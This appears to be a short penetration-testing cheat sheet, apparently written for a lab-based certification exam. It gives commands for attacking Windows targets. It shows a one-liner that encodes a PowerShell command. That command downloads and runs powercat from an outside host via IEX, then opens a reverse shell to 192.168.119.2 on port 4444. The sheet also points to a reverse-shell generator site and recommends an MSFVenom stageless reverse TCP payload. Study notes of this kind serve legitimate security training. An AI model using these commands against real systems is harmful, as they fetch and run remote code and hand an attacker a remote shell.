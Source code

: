 If you are attacking Windows, here is how to base64 encode in linux so that Windows can use it.

```console
echo -n "a powershell command" | iconv -f UTF-8 -t UTF-16LE | base64 -w 0
```
Here is an example that downloads powercat and then uses it to start a reverseshell
```console
echo -n "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.2/powercat.ps1'); powercat -c 192.168.119.2 -p 4444 -e powershell" | iconv -f UTF-8 -t UTF-16LE | base64 -w 0
```
Great site for generating shells.
[Revshells.com](https://www.revshells.com/) 
<hr style="border-color:red"><p style="color:red;text-align:center">If you use MSFVenom, always use the 4th option Windows Stageless Reverse TCP so you get full points</p><hr style="border-color:red">

